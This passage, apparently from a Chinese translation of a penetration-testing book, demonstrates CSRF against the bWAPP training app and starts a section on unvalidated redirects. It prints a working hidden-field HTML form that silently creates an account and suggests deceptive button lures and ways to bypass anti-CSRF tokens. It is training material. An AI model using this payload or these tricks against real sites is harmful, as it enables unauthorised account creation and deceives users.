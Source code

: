 ```
    <td>
        <p><label for="password_conf">Re-type password:</label><br />
        <input type="password" id="password_conf" name="password_conf"></p>
    </td></tr>
    <tr><td colspan="3">
        <p><label for="secret">Secret:</label><br />
        <input type="text" id="secret" name="secret" size="40"></p>        
    </td></tr>
    <tr><td>
        <p><label for="mail_activation">E-mail activation:</label>
        <input type="checkbox" id="mail_activation" name="mail_activation" value="">
    </td></tr>
    </table>
    <button type="submit" name="action" value="create">Create</button>
</form>
```

现在，为了特别隐秘，我们需要确保接收此页面的人不理解我们让他们做什么。诀窍是隐藏字段并利用隐藏属性来使我们的请求通过他们的好奇检查。我可以通过修改源代码来消除所有标签并隐藏所有用户输入，除了一个`submit`按钮，同时嵌入我想要的凭据而不让用户知道：

```
<form action="http://172.16.30.129/bWAPP/user_extra.php" method="GET">
        <input type="hidden" id="login" name="login" value="test1"></p>
        <input type="hidden" id="email" name="email" value="test1@example.com"></p>
        <input type="hidden" id="password" name="password" value="dude"></p>
        <input type="hidden" id="password_conf" name="password_conf" value="dude"></p>
        <input type="hidden" id="secret" name="secret" size="40" value="Hello Hackers"></p>
        <input type="hidden" id="mail_activation" name="mail_activation" value="">
        <button type="submit" name="action" value="create">Log In Here</button>
</form>
```

当受害者加载时，这将导致页面看起来像以下截图所示的页面。我们可以使该按钮看起来像任何东西（“赢得 100 万美元！”、“验证电子邮件”和“注册研讨会”都是可行的选项）。我们甚至可以将其嵌入到图片中作为链接；我们的目标是制作一个看起来无害且与用户预期行为相关的东西。

![](img/B03918_10_12.png)

简单的登录页面，对吧？

当用户点击这个按钮时，我们会看到可怜的认证受害者具有创建账户的权限，就像下面的截图中所示！关键在于知道预期的字段是什么。OSINT 可以帮助，因为通常新员工的说明和帮助门户会毫不保留地透露这一点。我们还可以根据组织内的其他趋势做出一些合理的猜测。

![](img/B03918_10_13-1.png)

账户已创建，谢谢！

应该注意的是，CSRF 是黑客和防御者之间非常活跃的猫鼠游戏创新领域。反 CSRF 令牌已经成为保护用户的手段；但是，就像所有漏洞一样，正如我们在本书中所看到的，执行通常是最薄弱的环节。如果使用了反 CSRF 令牌，黑客（和我们）可以尝试在我们的 CSRF 页面中使用 JavaScript 来捕获客户端的任何反 CSRF 令牌，并将其滑入我们的 GET 或 POST 请求中，以确保我们规避这种保护。更好的反 CSRF 实现将通过实施临时和上下文驱动的令牌来防止这种情况，但如果他们没有这样做，那么规避这些控制的可能性是相当大的。

### 相信我，我知道路！

对于这样一个长的名称，未经验证的重定向和转发漏洞使网站面临着极小的努力即可进行攻击，使攻击者能够将用户重定向到恶意网站或至少是意外的网站。我们可以使用自动化工具（如 Burp 或 ZAP）扫描网站，这些工具将通过一些线索来发现潜在的问题，例如使用完整站点路径或长重定向响应的页面，这两者都在此网站上看到（如下图所示），或者尝试在浏览器中指定扩展名或修改 URL：
